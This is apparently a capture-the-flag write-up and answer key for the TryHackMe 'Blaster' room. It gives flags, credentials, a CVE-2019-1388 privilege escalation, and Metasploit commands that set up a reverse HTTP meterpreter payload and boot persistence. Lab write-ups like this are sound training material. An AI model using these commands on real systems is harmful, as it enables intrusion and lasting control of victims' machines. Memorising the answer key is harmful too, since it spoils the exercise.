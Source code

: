 # Blaster 

> John Hammond | August 22nd, 2020

---------------------

```
10.10.106.233
```

# Task 1

1. How many ports are open on our target system?


```
2
```

2. Looks like there's a web server running, what is the title of the page we discover when browsing to it?


```
IIS Windows Server
```

3. Interesting, let's see if there's anything else on this web server by fuzzing it. What hidden directory do we discover?

```
/retro
```

4. Navigate to our discovered hidden directory, what potential username do we discover?

```
wade
```

5. Crawling through the posts, it seems like our user has had some difficulties logging in recently. What possible password do we discover?

```
parzival
```

6. Log into the machine via Microsoft Remote Desktop (MSRDP) and read user.txt. What are it's contents?

```
THM{HACK_PLAYER_ONE}
```


# Task 2

1. 	When enumerating a machine, it's often useful to look at what the user was last doing. Look around the machine and see if you can find the CVE which was researched on this server. What CVE was it?


```
CVE-2019-1388
```

Supposed to be found while looking through browser history



2. Looks like an executable file is necessary for exploitation of this vulnerability and the user didn't really clean up very well after testing it. What is the name of this executable?

```
hhupd
```

3. Research vulnerability and how to exploit it. Exploit it now to gain an elevated terminal!


4. Now that we've spawned a terminal, let's go ahead and run the command 'whoami'. What is the output of running this?

```
nt authority\system
```


5. 	
Now that we've confirmed that we have an elevated prompt, read the contents of root.txt on the Administrator's desktop. What are the contents? Keep your terminal up after exploitation so we can use it in task four!

```
THM{COIN_OPERATED_EXPLOITATION}
```

# Task 3

1. Return to your attacker machine for this next bit. Since we know our victim machine is running Windows Defender, let's go ahead and try a different method of payload delivery! For this, we'll be using the script web delivery exploit within Metasploit. Launch Metasploit now and select 'exploit/multi/script/web_delivery' for use.


2. First, let's set the target to PSH (PowerShell). Which target number is PSH?

```
2
```

3. After setting your payload, set your lhost and lport accordingly such that you know which port the MSF web server is going to run on and that it'll be running on the TryHackMe network.

4. Finally, let's set our payload. In this case, we'll be using a simple reverse HTTP payload. Do this now with the command: 'set payload windows/meterpreter/reverse_http'. Following this, launch the attack as a job with the command 'run -j'.

5. 	Return to the terminal we spawned with our exploit. In this terminal, paste the command output by Metasploit after the job was launched. In this case, I've found it particularly helpful to host a simple python web server (python3 -m http.server) and host the command in a text file as copy and paste between the machines won't always work. Once you've run this command, return to our attacker machine and note that our reverse shell has spawned.


6. Last but certainly not least, let's look at persistence mechanisms via Metasploit. What command can we run in our meterpreter console to setup persistence which automatically starts when the system boots? Don't include anything beyond the base command and the option for boot startup. 

```
run persistence -X
```

7. 	
Run this command now with options that allow it to connect back to your host machine should the system reboot. Note, you'll need to create a listener via the handler exploit to allow for this remote connection in actual practice. Congrats, you've now gain full control over the remote host and have established persistence for further operations!